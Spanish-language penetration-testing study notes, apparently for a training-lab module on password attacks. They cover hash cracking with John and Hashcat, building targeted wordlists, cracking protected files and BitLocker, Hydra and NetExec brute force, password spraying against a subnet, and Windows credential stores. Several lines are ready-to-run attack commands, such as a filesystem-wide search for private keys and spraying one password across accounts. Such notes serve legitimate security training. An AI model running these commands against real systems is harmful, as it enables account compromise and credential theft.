```
`hashid -j` te da el nombre de formato que entiende John; luego lo pasas con `--format`.

---

#### Extraer hashes de archivos protegidos (`*2john`)

John trae una familia de scripts **`<algo>2john`** que **extraen el hash** de un fichero protegido para poder crackearlo:

```bash
<tool> <fichero_a_crackear> > file.hash
john --wordlist=<wordlist> file.hash
```

| Herramienta | Convierte para John… |
|-------------|----------------------|
| `pdf2john` | Documentos PDF |
| `ssh2john` | Claves privadas SSH |
| `mscash2john` | Hashes de MS Cash |
| `keychain2john` | Keychain de macOS |
| `rar2john` | Archivos RAR |
| `pfx2john` | Archivos PKCS#12 (`.pfx`) |
| `truecrypt_volume2john` | Volúmenes TrueCrypt |
| `keepass2john` | Bases de datos KeePass |
| `vncpcap2john` | PCAP de VNC |
| `putty2john` | Claves privadas de PuTTY |
| `zip2john` | Archivos ZIP |
| `hccap2john` | Handshakes WPA/WPA2 |
| `office2john` | Documentos MS Office |
| `wpa2john` | Handshakes WPA/WPA2 |

> [!TIP]
> El flujo práctico de crackeo de ficheros protegidos (SSH, Office, ZIP, BitLocker…) está en **Crackeo de archivos protegidos**.

---

#### Resumen rápido (cheatsheet)

| Comando | Qué hace |
|---------|----------|
| `john --single <hash>` | Modo single (deriva del usuario — Linux) |
| `john --wordlist=<wl> <hash>` | Ataque de diccionario |
| `john --incremental <hash>` | Fuerza bruta (modelo estadístico) |
| `hashid -j <hash>` | Identificar formato para John |
| `john --format=<n> <hash>` | Forzar el formato |
| `<tool>2john <fichero> > f.hash` | Extraer hash de un archivo protegido |
| `john <hash> --show` | Ver las contraseñas ya crackeadas |

---

### Hashcat

Herramienta de **crackeo de hashes** acelerada por GPU. Sintaxis general:

```bash
hashcat -a 0 -m 0 <hashes> [wordlist, rule, mask, ...]
```

| Parte | Significado |
|-------|-------------|
| `-a` | **Modo de ataque** (0 = diccionario, 3 = máscara…) |
| `-m` | **Tipo de hash** (0 = MD5, 1000 = NTLM…) |
| `<hashes>` | Un hash o un fichero con varios hashes **del mismo tipo** |
| `[wordlist / rule / mask]` | Argumentos que dependen del modo de ataque |

---

#### Identificar el tipo de hash

```bash
hashid -j <hash>                 # identifica y da el modo -m de Hashcat (JtR con -j)
hashcat --help | grep -i <tipo>  # busca el nº de modo por nombre (ej. 'office', 'sha512')
```
- **`hashid -j`** es lo más directo: te devuelve el **`-m`** a usar (y el formato de John). Útil cuando el hash es ambiguo.
- **`hashcat --help | grep -i office`** (o `sha512`, `ntlm`…) te da el número de modo de un tipo concreto (p. ej. Office 2013 → **9600**).
- `hashcat --help` a secas lista **todos** los `-m`.

> [!TIP]
> **Rutas útiles de wordlists/reglas**
> - rockyou: `/usr/share/wordlists/rockyou.txt` o en SecLists `/usr/share/seclists/Passwords/Leaked-Databases/rockyou-*.txt`.
> - reglas: `/usr/share/hashcat/rules/` → `best64.rule`, `rockyou-30000.rule` (más agresiva).

---

#### Modos de ataque

##### Ataque de diccionario (`-a 0`)

```bash
hashcat -a 0 -m 0 e3e3ec5831ad5e7288241960e5d4fdb8 /usr/share/wordlists/rockyou.txt
```

**Con reglas** (`-r`): aplican mutaciones a cada palabra del diccionario. Los rulesets vienen en `/usr/share/hashcat/rules/`. Uno muy usado es **`best64.rule`** (64 mutaciones estándar: añadir números al final, sustituciones *leet*, etc.):

```bash
hashcat -a 0 -m 0 1b0556a75770563578569ae21392630c /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```

##### Ataque de máscara (`-a 3`)

Fuerza bruta **dirigida**: en vez de probar todas las combinaciones, defines un patrón. Ej.: si la contraseña tiene 8 caracteres, una máscara de "6 letras + 2 números".

| Símbolo | Conjunto de caracteres |
|---------|------------------------|
| `?l` | `abcdefghijklmnopqrstuvwxyz` |
| `?u` | `ABCDEFGHIJKLMNOPQRSTUVWXYZ` |
| `?d` | `0123456789` |
| `?h` | `0123456789abcdef` |
| `?H` | `0123456789ABCDEF` |
| `?s` | Espacio + símbolos especiales (`!"#$%&'()*+,-./:;<=>?@[]^_` backtick `{` barra `}~`) |
| `?a` | `?l?u?d?s` (todo lo imprimible) |
| `?b` | `0x00 - 0xff` (todos los bytes) |

Ejemplo: contraseña que empieza por **mayúscula**, sigue con **cuatro minúsculas**, un **dígito** y un **símbolo** → máscara `?u?l?l?l?l?d?s`:

```bash
hashcat -a 3 -m 0 1e293d6912d074c0fd15844d803400dd '?u?l?l?l?l?d?s'
```

---

#### Resumen rápido (cheatsheet)

| Comando | Qué hace |
|---------|----------|
| `hashcat -a 0 -m <t> <hash> <wordlist>` | Ataque de diccionario |
| `hashcat -a 0 -m <t> <hash> <wl> -r <rule>` | Diccionario + reglas (`best64.rule`) |
| `hashcat -a 3 -m <t> <hash> '<máscara>'` | Ataque de máscara |
| `hashid -j <hash>` / `hashcat --help \| grep -i <tipo>` | Identificar el `-m` del hash |
| Máscara | `?l` min · `?u` may · `?d` dígito · `?s` símbolo · `?a` todo |
| `-r /usr/share/hashcat/rules/rockyou-30000.rule` | Reglas más agresivas que best64 |

---

### Creación de listas de palabras y reglas personalizadas

Los usuarios adaptan sus contraseñas para cumplir las **políticas** típicas de forma predecible. Con **reglas** (mutaciones) y **wordlists a medida** aprovechamos esos patrones.

---

#### Patrones comunes de contraseña

| Descripción | Ejemplo |
|-------------|---------|
| Primera letra en mayúscula | `Password` |
| Añadir números | `Password123` |
| Añadir año | `Password2022` |
| Añadir mes | `Password02` |
| Último carácter `!` | `Password2022!` |
| Caracteres especiales (*leet*) | `P@ssw0rd2022!` |

---

#### Reglas (mutaciones)

Una **regla** transforma cada palabra del diccionario al vuelo. Ejemplo con una lista de una sola entrada:

```bash
cat password.list
# password
```

| Función | Descripción |
|---------|-------------|
| `:` | No hacer nada (dejar la palabra igual) |
| `l` | Todas las letras a **minúscula** |
| `u` | Todas las letras a **mayúscula** |
| `c` | Primera letra en **mayúscula**, resto en minúscula |
| `sXY` | Reemplazar todas las `X` por `Y` (sustituciones *leet*: `sa@`, `so0`…) |
| `$!` | Añadir `!` al **final** |

> [!NOTE]
> Tanto **Hashcat** como **John** traen rulesets predefinidos. Uno de los más efectivos y usados es **`best64.rule`** (ver **Introduction to Hashcat**).

---

#### Generar wordlists desde una web — CeWL

```bash
cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist
```
**CeWL** rastrea un sitio web y guarda las palabras que encuentra en una lista. Parámetros:
- `-d 4` → profundidad de rastreo.
- `-m 6` → longitud mínima de palabra.
- `--lowercase` → guardar en minúsculas.
- `-w` → fichero de salida.

Útil para generar diccionarios **específicos del objetivo** (jerga, nombres de producto, etc.).

---

#### Generar wordlists desde datos personales — CUPP

```bash
cupp -i
```
**CUPP** (*Common User Passwords Profiler*) genera una wordlist personalizada a partir de datos de la víctima (nombre, pareja, mascota, fechas…) en modo **interactivo** (`-i`). Muy útil cuando conoces información personal del objetivo (OSINT).

> [!NOTE]
> En las notas originales "CUPP" aparecía solo como título. Se ha añadido su uso básico (conocimiento establecido) como referencia.

---

#### Combinar y filtrar listas (flujo práctico)

Cuando tienes **keywords sueltas** del objetivo (nombre, empresa, fechas…), este flujo las convierte en una wordlist potente:

**1. Combinar palabra+palabra** (ataque combinador `-a 1`) con `--stdout` para generar en vez de crackear:

```bash
hashcat --stdout -a 1 keywords.txt keywords.txt > combos.txt
wc -l combos.txt
```
De ~20 palabras salen cientos de combinaciones de dos.

**2. Filtrar por la política de contraseñas** (p. ej. mínimo 12 caracteres) con `awk`:

```bash
awk 'length($0) >= 12' combos.txt > combos_12.txt
```

**3. Expandir con reglas** (añade números, años, símbolos…):

```bash
hashcat --stdout combos_12.txt -r /usr/share/hashcat/rules/rockyou-30000.rule > final.txt
```

**4. Crackear** con la lista final:

```bash
hashcat -a 0 -m 0 <hash> final.txt
hashcat -a 0 -m 0 <hash> final.txt --show
```

> [!TIP]
> **La idea**
> Partes de pocas palabras del objetivo → **combinas** (`-a 1`) → **filtras** por política (`awk`) → **mutas** con reglas. Mucho más eficaz que rockyou pura cuando hay política de contraseñas estricta.

---

#### Usuarios a partir de nombres — username-anarchy

No todo son contraseñas: también se generan **nombres de usuario** a partir de nombres y apellidos reales (OSINT / LinkedIn):

```bash
./username-anarchy -i nombres.txt > usuarios.txt
```
Genera todas las variantes típicas (`jmarston`, `john.marston`, `marstonj`…) para luego probarlas con **Kerbrute**/**NetExec** (ver **Atacando Active Directory y NTDS.dit**).

---

#### Resumen rápido (cheatsheet)

| Comando / regla | Qué hace |
|-----------------|----------|
| `cewl <url> -d <n> -m <n> --lowercase -w out` | Wordlist a partir de una web |
| `cupp -i` | Wordlist a partir de datos personales |
| `hashcat --stdout -a 1 l.txt l.txt > combos` | Combinar palabra+palabra |
| `awk 'length($0) >= 12' in > out` | Filtrar por longitud (política) |
| `hashcat --stdout in -r <rule> > final` | Expandir una lista con reglas |
| `./username-anarchy -i nombres.txt > users` | Generar usuarios desde nombres |
| Reglas `c` `u` `l` `sXY` `$!` | Capitalizar / mayús / minús / *leet* / añadir `!` |
| `best64.rule` · `rockyou-30000.rule` | Rulesets más usados (de menos a más agresivo) |

---

### Crackeo de archivos protegidos

Flujo para **crackear ficheros/unidades cifradas**: localizarlos, extraer su hash con un script `*2john`/`*2hashcat` y crackearlo con **John The Ripper** o **Hashcat**.

> [!NOTE]
> **Simétrico vs asimétrico**
> - **Cifrado simétrico** (ej. **AES-256**): la **misma clave** cifra y descifra. Común para proteger ficheros/carpetas individuales.
> - **Cifrado asimétrico**: **dos claves** (pública/privada). El remitente cifra con la **pública** del destinatario y este descifra con su **privada**. Común para transmisión.

---

#### Localizar archivos cifrados

Muchas extensiones corresponden a ficheros cifrados (lista de referencia en [FileInfo](https://fileinfo.com/filetypes/encoded)). Ejemplo para buscarlos en Linux:

```bash
find / -type f \( -name "*.zip" -o -name "*.rar" -o -name "*.7z" -o -name "*.kdbx" -o -name "*.pfx" -o -name "*.gpg" -o -name "*.vhd" \) 2>/dev/null
```

> [!NOTE]
> El comando concreto no estaba en las notas originales; este `find` es un ejemplo de referencia (ajústalo a las extensiones que busques).

##### Buscar claves SSH

Las claves SSH **no tienen extensión estándar**; se identifican por su **cabecera**: una clave privada empieza por `-----BEGIN [...] PRIVATE KEY-----`. En post-explotación se buscan con `grep`:

```bash
grep -rniE "BEGIN (RSA|OPENSSH|DSA|EC) PRIVATE KEY" / 2>/dev/null
```

Para saber si una clave está **cifrada** (protegida por passphrase), intenta leerla:

```bash
ssh-keygen -yf ~/.ssh/id_ed25519
```
Si la clave está protegida, pedirá una **passphrase**.

---

#### Crackear claves SSH cifradas

```bash
ssh2john.py SSH.private > ssh.hash
john --wordlist=rockyou.txt ssh.hash
john ssh.hash --show
```

#### Crackear documentos de Office

```bash
office2john.py Protected.docx > protected-docx.hash
john --wordlist=rockyou.txt protected-docx.hash
john protected-docx.hash --show
```
`office2john.py` extrae el hash de todos los formatos comunes de MS Office.

#### Crackear archivos ZIP

El ZIP se usa mucho en Windows para comprimir varios ficheros en uno. Mismo proceso, distinto script:

```bash
zip2john ZIP.zip > zip.hash
cat zip.hash
john --wordlist=rockyou.txt zip.hash
```

#### Crackear PDF

```bash
pdf2john.pl PDF.pdf > pdf.hash
john --wordlist=rockyou.txt pdf.hash
```

> [!TIP]
> **¿Prefieres Hashcat? Encuentra el modo**
> Todos estos (`*2john`) también valen para Hashcat; solo necesitas el **`-m`** correcto. Identifícalo con:
> ```bash
> hashid -j <hash>                 # te da el -m directamente
> hashcat --help | grep -i office  # busca por tipo (office→9600, zip, pdf…)
> ```
> Ejemplo Office 2013: `hashcat -a 0 -m 9600 office.hash rockyou.txt`.

---

#### Descifrar unidades BitLocker

**1. Extraer el hash** del VHD y quedarte con la línea del hash:

```bash
bitlocker2john -i Backup.vhd > backup.hashes
grep "bitlocker\$0" backup.hashes > backup.hash
cat backup.hash
```

**2. Crackear** con John o Hashcat (modo **`-m 22100`** para BitLocker):

```bash
hashcat -a 0 -m 22100 backup.hash /usr/share/wordlists/rockyou.txt
```

##### Montar la unidad BitLocker en Linux (dislocker)

Con la contraseña ya conocida, puedes **montar** el VHD y explorar sus ficheros con [dislocker](https://github.com/Aorimn/dislocker):

```bash
sudo apt-get install dislocker
```
```bash
sudo mkdir -p /media/bitlocker
sudo mkdir -p /media/bitlockermount
```
```bash
sudo losetup -f -P Backup.vhd
sudo dislocker /dev/loop0p2 -u1234qwer -- /media/bitlocker
sudo mount -o loop /media/bitlocker/dislocker-file /media/bitlockermount
```
- `losetup -f -P` → monta el VHD como *loop device*.
- `dislocker … -u<contraseña>` → descifra la unidad.
- `mount` → monta el volumen descifrado.

Explorar y luego desmontar:

```bash
cd /media/bitlockermount/ && ls -la
```
```bash
sudo umount /media/bitlockermount
sudo umount /media/bitlocker
```

---

#### Resumen rápido (cheatsheet)

| Objetivo | Comando |
|----------|---------|
| Buscar cifrados | `find / -type f \( -name "*.zip" -o ... \) 2>/dev/null` |
| Buscar claves SSH | `grep -rniE "BEGIN .* PRIVATE KEY" / 2>/dev/null` · `ssh-keygen -yf <clave>` |
| SSH | `ssh2john.py k.private > h` → `john --wordlist=rockyou.txt h` |
| Office | `office2john.py f.docx > h` → `john ...` (Hashcat `-m 9600`) |
| ZIP | `zip2john f.zip > h` → `john ...` |
| PDF | `pdf2john.pl f.pdf > h` → `john ...` |
| Encontrar modo Hashcat | `hashid -j <hash>` · `hashcat --help \| grep -i <tipo>` |
| BitLocker | `bitlocker2john -i disk.vhd` → `hashcat -m 22100` · montar con `dislocker` |
| Ver crackeadas | `john <hash> --show` |

---

## Remote Password Attacks

### Fuerza bruta a servicios en red

Ataques de contraseña **remotos** (online) contra servicios expuestos. Las dos herramientas base:

- **Hydra** → `hydra -L <userlist> -P <passlist> <proto>://<IP>` (`-L`/`-P` = listas; `-l`/`-p` = usuario/clave únicos).
- **NetExec** → `netexec <proto> <IP> -u <user o lista> -p <pass o lista>` (SMB, WinRM, LDAP, MSSQL, SSH…).

> [!WARNING]
> La fuerza bruta remota es **ruidosa** y puede **bloquear cuentas** (lockout) o disparar alertas. Controla el ritmo y el número de intentos.

---

#### WinRM (5985/5986)

Debe activarse manualmente en Windows 10/11. Puertos: **5985** (HTTP) y **5986** (HTTPS).

```bash
netexec winrm 10.129.42.197 -u user.list -p password.list
```
Fuerza bruta con NetExec. Si aparece **`(Pwn3d!)`**, muy probablemente puedes **ejecutar comandos** al iniciar sesión con esas credenciales.

```bash
evil-winrm -i 10.129.42.197 -u user -p password
```
Con credenciales válidas, **Evil-WinRM** te da una shell interactiva de WinRM.

---

#### SSH (22)

SSH usa tres mecanismos de criptografía:
- **Cifrado simétrico** — la **misma clave** cifra y descifra.
- **Cifrado asimétrico** — **dos claves** (privada/pública); la privada, secreta, es la única que descifra lo cifrado con la pública.
- **Hashing** — integridad.

```bash
hydra -L user.list -P password.list ssh://10.129.42.197
```

---

#### RDP (3389)

```bash
hydra -L user.list -P password.list rdp://10.129.42.197
```
```bash
xfreerdp /v:<target-IP> /u:<username> /p:<password>
```
Con credenciales válidas, `xfreerdp` abre la sesión de escritorio remoto.

---

#### SMB (445)

```bash
hydra -L user.list -P password.list smb://10.129.42.197
```
Con credenciales, usa NetExec para ver **recursos compartidos** y tus privilegios sobre ellos:

```bash
netexec smb 10.129.42.197 -u "user" -p "password" --shares
```
Y `smbclient` para navegar/subir/descargar (según permisos):

```bash
smbclient -U user //10.129.42.197/SHARENAME
```

> [!TIP]
> **SMB por fuerza bruta es lento: prueba Metasploit**
> El `smb_login` de Metasploit suele ir mejor que Hydra para SMB:
> ```
> msfconsole
> use auxiliary/scanner/smb/smb_login
> set RHOSTS <IP>
> set USER_FILE user.list
> set PASS_FILE password.list
> run
> ```

---

#### Resumen rápido (cheatsheet)

| Servicio | Fuerza bruta | Acceso con creds |
|----------|--------------|------------------|
| **WinRM** (5985/6) | `netexec winrm <IP> -u u.list -p p.list` | `evil-winrm -i <IP> -u u -p p` |
| **SSH** (22) | `hydra -L u.list -P p.list ssh://<IP>` | `ssh u@<IP>` |
| **RDP** (3389) | `hydra -L u.list -P p.list rdp://<IP>` | `xfreerdp /v:<IP> /u:u /p:p` |
| **SMB** (445) | `hydra -L u.list -P p.list smb://<IP>` | `netexec smb <IP> -u u -p p --shares` · `smbclient -U u //<IP>/<share>` |
| Señal | `(Pwn3d!)` en NetExec = **ejecución de comandos** |

---

### Pulverización, relleno y credenciales por defecto

Tres técnicas remotas que evitan la fuerza bruta "clásica" (una cuenta, muchas contraseñas) y sus problemas de bloqueo.

---

#### Pulverización de contraseñas (password spraying)

Se prueba **una sola contraseña** (probable/común) contra **muchas cuentas** de usuario. Al usar una única contraseña por ronda, **evita bloquear cuentas** por demasiados intentos.

- **Aplicaciones web** → [Burp Suite](https://portswigger.net/burp).
- **Active Directory** → [NetExec](https://github.com/Pennyw0rth/NetExec) o [Kerbrute](https://github.com/ropnop/kerbrute).

```bash
netexec smb 10.100.38.0/24 -u usernames.list -p 'ChangeMe123!'
```
Prueba la contraseña `ChangeMe123!` contra todos los usuarios de la lista en **toda la subred** (`/24`).

> [!TIP]
> Contraseñas típicas de spraying: `ChangeMe123!`, `Welcome1`, `Primavera2026!`, el nombre de la empresa + año… Una sola bien elegida contra cientos de cuentas suele dar un acierto.

---

#### Relleno de credenciales (credential stuffing)

Reutiliza **credenciales robadas** (de una filtración o de otro servicio) para intentar entrar en **otros** servicios — se apoya en que la gente **reutiliza** contraseñas.

```bash
hydra -C user_pass.list ssh://10.100.38.23
```
`-C` usa un fichero **combinado** con pares `usuario:contraseña` (uno por línea), en vez de listas separadas de usuarios y contraseñas.

---

#### Credenciales por defecto

Muchos dispositivos/servicios traen credenciales de fábrica que nadie cambia.

```bash
pip3 install defaultcreds-cheat-sheet
creds search <producto>
```
**`defaultcreds-cheat-sheet`** es una base de datos consultable de credenciales por defecto: `creds search <fabricante/producto>` te devuelve las conocidas.

---

#### Resumen rápido (cheatsheet)

| Técnica | Idea | Comando |
|---------|------|---------|
| **Spraying** | 1 contraseña → muchos usuarios (no bloquea) | `netexec smb <CIDR> -u users.list -p 'ChangeMe123!'` |
| **Stuffing** | creds robadas de un sitio → otros | `hydra -C user_pass.list <proto>://<IP>` |
| **Default creds** | credenciales de fábrica | `creds search <producto>` |

---

## Extracting Passwords from Windows Systems

### Proceso de autenticación de Windows

> [!IMPORTANT]
> **¿Por qué me interesa esto como atacante?**
> Windows nunca guarda tu contraseña en texto plano: guarda un **hash** (una huella criptográfica). Este tema explica **quién valida el login** y **dónde viven esos hashes**, porque el objetivo del pentester es exactamente ese: llegar a esos tres sitios y **robar los hashes** para crackearlos o reutilizarlos (Pass-the-Hash).
>
> Los tres almacenes que persigues:
> 1. **SAM** → hashes de usuarios **locales** (máquina suelta).
> 2. **Memoria de LSASS** → credenciales de sesiones **activas** (aquí trabaja Mimikatz).
> 3. **NTDS.dit** → hashes de **todo el dominio** (solo en el Controlador de Dominio).

---

#### Idea general: ¿quién comprueba tu contraseña?

Cuando pulsas `Ctrl+Alt+Supr` y escribes tu contraseña, **no** la valida la pantalla de login. Detrás hay una cadena de componentes que se pasan el testigo hasta un "portero" central llamado **LSASS**. Piensa en ello como en la entrada de un edificio:

- **WinLogon** = el torno de entrada (detecta que alguien quiere pasar).
- **LogonUI** = la ventanilla donde te piden el DNI (la caja de usuario/contraseña).
- **Proveedor de credenciales** = el formulario que recoge tus datos.
- **LSASS** = el jefe de seguridad que decide si entras o no.
- **Paquete de autenticación** (una DLL) = el manual concreto que usa el jefe para comprobar tus datos (NTLM, Kerberos…).
- **SAM / Active Directory** = el archivo maestro con la lista de personas autorizadas (los hashes).

##### Flujo del inicio de sesión interactivo local




---

#### LSA — Autoridad de Seguridad Local

La [**Autoridad de Seguridad Local (LSA)**](https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection) supervisa **toda la seguridad local** del sistema. Entre otras cosas, traduce entre **nombres de usuario** y **SID** (Security Identifier), el identificador numérico único que Windows usa por dentro para cada cuenta.

> [!NOTE]
> **¿Qué es un SID? (contexto)**
> Windows no distingue a los usuarios por su nombre, sino por su **SID** (algo como `S-1-5-21-...-1001`). El nombre es solo la "etiqueta bonita"; el SID es el identificador real. La LSA es quien hace esa traducción nombre ⇄ SID.

El **inicio de sesión interactivo local** lo coordinan varios componentes trabajando juntos:

| Componente | Rol |
|-----------|-----|
| **WinLogon** | Proceso de login (arranca la interfaz, gestiona bloqueo/desbloqueo y cambios de contraseña) |
| **LogonUI** | La interfaz gráfica donde escribes las credenciales |
| **Proveedores de credenciales** | DLLs que recogen lo que introduces (contraseña, PIN, huella…) |
| **LSASS** | El servicio que realmente autentica |
| **Paquetes de autenticación** | DLLs que ejecutan la comprobación (p. ej. `Msv1_0.dll` para login local no unido a dominio) |
| **SAM / Active Directory** | Dónde están guardados los hashes contra los que se compara |

---

#### WinLogon

`WinLogon` es un **proceso de sistema de confianza** que gestiona las interacciones de seguridad con el usuario:

- Lanza `LogonUI` para pedir las credenciales al iniciar sesión.
- Gestiona los **cambios de contraseña**.
- **Bloquea y desbloquea** la estación de trabajo.

Es el **único** proceso que intercepta las solicitudes de login desde el teclado (llegan como mensajes RPC desde `Win32k.sys`). Al iniciar sesión, arranca `LogonUI` para mostrar la interfaz; cuando el proveedor de credenciales ya ha recogido usuario y contraseña, **WinLogon se las entrega a LSASS** para que las valide.

---

#### LSASS — el portero central

El [**Servicio de Subsistema de la Autoridad de Seguridad Local (LSASS)**](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service) está formado por varios módulos y **gobierna todos los procesos de autenticación**. Se ejecuta desde:

```
%SystemRoot%\System32\Lsass.exe
```

Sus funciones: aplicar la política de seguridad local, **autenticar a los usuarios** y enviar los registros de auditoría al `Event Log`.

> [!WARNING]
> **Por qué LSASS es el objetivo nº1**
> Para validar sesiones, LSASS mantiene **credenciales en memoria** (hashes NTLM, tickets Kerberos, a veces contraseñas en claro de sesiones abiertas). Herramientas como **Mimikatz** vuelcan esa memoria (`lsass.exe`) para robarlas. Por eso Microsoft añadió protecciones como **LSA Protection (RunAsPPL)** y **Credential Guard**.

##### Paquetes de autenticación (DLLs que carga LSASS)

Cada DLL sabe validar de una forma distinta. LSASS elige la adecuada según el tipo de login:

| Paquete (DLL) | Para qué sirve |
|---------------|----------------|
| `Lsasrv.dll` | Servicio LSA Server: aplica las políticas y gestiona los paquetes de seguridad. Contiene la función **Negotiate**, que decide si se usa **NTLM o Kerberos** (elige el que vaya a funcionar). |
| `Msv1_0.dll` | Paquete para **logins locales** que no necesitan autenticación personalizada (el típico de una máquina no unida a dominio). |
| `Samsrv.dll` | Gestiona la base de datos **SAM**: almacena las cuentas locales y aplica las políticas locales. |
| `Kerberos.dll` | Autenticación basada en **Kerberos** (la habitual en entornos de dominio/Active Directory). |
| `Netlogon.dll` | Servicio de login **basado en red**. |
| `Ntdsa.dll` | Agente del Directorio (DSA): gestiona la base de datos de AD (`ntds.dit`), procesa consultas **LDAP** y replica entre controladores de dominio. **Solo se carga en los Controladores de Dominio.** |

> [!TIP]
> **NTLM vs Kerberos en una frase**
> - **NTLM** → esquema antiguo de reto/respuesta, típico de **máquinas locales** y compatibilidad. Es el que produce los hashes que crackeas.
> - **Kerberos** → esquema moderno **por tickets**, el estándar en **Active Directory**. Lo verás a fondo en los módulos de AD.

---

#### Base de datos SAM — hashes de usuarios **locales**

El [**Security Account Manager (SAM)**](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc756748\(v=ws.10\)) es el **fichero de base de datos** donde una máquina Windows guarda las credenciales de sus **cuentas locales**. Sirve para autenticar a usuarios locales y remotos, con protecciones criptográficas.

Las contraseñas se guardan como **hashes** en el registro (normalmente `LM` —antiguo— o `NTLM`). Ubicación:

```
Archivo:   %SystemRoot%\system32\config\SAM
Registro:  HKLM\SAM
```

> [!WARNING]
> **Necesitas ser SYSTEM**
> Leer el fichero SAM requiere privilegios de nivel **SYSTEM** (ni siquiera un Administrador normal puede abrirlo mientras Windows está arrancado, porque está en uso). Por eso las técnicas de volcado (`reg save`, copia con VSS, secretsdump…) juegan con eso.

> [!NOTE]
> **Cómo se ve un hash NTLM (ejemplo de formato — añadido)**
> Cuando vuelcas la SAM, cada línea suele tener este formato `usuario:RID:LM:NT:::`. Ejemplo **ilustrativo** (no es de ninguna máquina real):
> ```
> Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
> ```
> - `500` = **RID** (el 500 siempre es el Administrador local).
> - La parte tras el primer `:` con `aad3b4...` es el hash **LM** (aquí "vacío"/deshabilitado, valor típico).
> - El siguiente bloque es el hash **NTLM**, que es el que atacas con John/Hashcat (`-m 1000`) o reutilizas con Pass-the-Hash.

##### SYSKEY

Para dificultar el crackeo **offline** de la SAM, desde Windows NT 4.0 existe `SYSKEY` (`syskey.exe`): cuando está activo, **cifra parcialmente** el fichero SAM en disco, de modo que los hashes locales quedan cifrados con una clave generada por el sistema (la *boot key*, guardada en `HKLM\SYSTEM`). Por eso, para descifrar los hashes normalmente necesitas **SAM + SYSTEM** juntos.

---

#### Administrador de Credenciales (Credential Manager)

Función integrada de Windows para que el usuario **guarde credenciales** de recursos de red, webs y aplicaciones. Se almacenan **por perfil de usuario**, cifradas, en el `Almacén de Credenciales` (Credential Vault):

```
C:\Users\[Usuario]\AppData\Local\Microsoft\[Vault | Credentials]\
```

> [!TIP]
> **Botín fácil**
> Aquí puede haber contraseñas de recursos que el usuario ya guardó (unidades de red, RDP, etc.). Es un sitio clásico donde buscar credenciales reutilizables durante la post-explotación.

---

#### NTDS.dit — hashes de **todo el dominio**

Cuando la máquina está **unida a un dominio**, quien valida ya no es la SAM local, sino un **Controlador de Dominio (DC)**: las solicitudes de login se envían a los DCs del mismo **bosque** de Active Directory.

Cada DC aloja el fichero **`NTDS.dit`**, que se **sincroniza (replica)** entre todos los DCs (excepto los [RODC](https://docs.microsoft.com/en-us/windows/win32/ad/rodc-and-active-directory-schema), de solo lectura). Ubicación:

```
%SystemRoot%\NTDS\ntds.dit
```

Es la base de datos de Active Directory y guarda, entre otras cosas:

- **Cuentas de usuario** (nombre de usuario + hash de contraseña)
- Cuentas de **grupo**
- Cuentas de **equipo**
- Objetos de **política de grupo (GPO)**

> [!WARNING]
> **El premio gordo**
> `NTDS.dit` contiene los hashes de **todos los usuarios del dominio**. Comprometer un DC y volcar este fichero (p. ej. `secretsdump`, DCSync) equivale a hacerte con **todo el dominio**. Como se replica entre DCs, basta con uno.

---

#### Resumen rápido (cheatsheet)

##### Dónde vive cada secreto

| Almacén | Qué guarda | Ruta | Privilegio para leerlo |
|---------|-----------|------|------------------------|
| **SAM** | Hashes de usuarios **locales** | `%SystemRoot%\system32\config\SAM` (+ `HKLM\SAM`) | **SYSTEM** |
| **Memoria de LSASS** | Creds de sesiones **activas** (NTLM, tickets Kerberos, a veces claro) | proceso `Lsass.exe` | Admin/SYSTEM (objetivo de Mimikatz) |
| **Credential Manager** | Creds guardadas por el usuario | `C:\Users\[U]\AppData\Local\Microsoft\[Vault\|Credentials]\` | El propio usuario |
| **NTDS.dit** | Hashes de **todo el dominio** | `%SystemRoot%\NTDS\ntds.dit` (solo en el **DC**) | Admin de dominio / SYSTEM en el DC |

##### Componentes del login (en orden)

| Paso | Componente | Hace |
|------|-----------|------|
| 1 | **WinLogon** | Intercepta el login del teclado |
| 2 | **LogonUI** + proveedor de credenciales | Recoge usuario/contraseña |
| 3 | **LSASS** | Gobierna la autenticación |
| 4 | **Paquete de autenticación** | `Msv1_0.dll` (local) / `Kerberos.dll` (dominio) |
| 5 | **SAM** (local) o **NTDS.dit** (dominio) | Se compara el hash → login OK/KO |

> [!TIP]
> **Lo que hay que quedarse**
> Windows guarda **hashes**, no contraseñas. Hay **3 sitios** de donde robarlos: **SAM** (local), **LSASS** (memoria/sesiones) y **NTDS.dit** (dominio entero). Los siguientes apuntes de este módulo se dedican precisamente a **volcar** cada uno de ellos.

---

Siguiente paso (volcar la SAM) → **Ataque a SAM, SYSTEM y SECURITY**

Relacionado: **0 - Password Attacks (Índice y cheatsheet)** · para crackear los hashes obtenidos → **Introduction to Hashcat** · **John The Ripper**

---

### Ataque a SAM, SYSTEM y SECURITY

> [!IMPORTANT]
> **Qué hacemos aquí**
> Ya sabemos por **Proceso de autenticación de Windows** que los hashes locales viven en la **SAM**. Este es el "cómo" práctico: con **acceso administrativo local**, copiamos los *hives* del registro que contienen (y descifran) esos hashes, los pasamos a nuestra máquina de ataque y los **crackeamos offline** — sin tocar la contraseña del usuario ni disparar bloqueos.

---

#### Los tres hives del registro que necesitas

Un *hive* es una sección del registro de Windows que se guarda en disco como un fichero. Con acceso **administrativo local** podemos copiar estos tres:

| Hive | Qué contiene | ¿Para qué lo quiero? |
|------|--------------|----------------------|
| `HKLM\SAM` | Los **hashes** de las cuentas de usuario **locales**. | Es el botín: los hashes a crackear. |
| `HKLM\SYSTEM` | La **boot key** (clave de arranque) que cifra la SAM. | **Sin esta clave no se pueden descifrar los hashes.** |
| `HKLM\SECURITY` | Info sensible de la **LSA**: credenciales de dominio en caché (**DCC2**), claves **DPAPI**, secretos de servicios, a veces contraseñas en claro… | Botín extra en máquinas de dominio. |

> [!WARNING]
> **SAM y SYSTEM van SIEMPRE juntos**
> Recuerda el `SYSKEY` de la teoría: la SAM está **cifrada** en disco con una clave que está en `HKLM\SYSTEM`. Por eso, para obtener los hashes necesitas **las dos**: `SAM` (los hashes cifrados) + `SYSTEM` (la clave para descifrarlos). `SECURITY` es opcional pero muy recomendable si la máquina está en un dominio.

---

#### Método 1 — Volcado local (reg.exe) y crackeo offline

##### Paso 1 · Copiar los hives con `reg.exe`

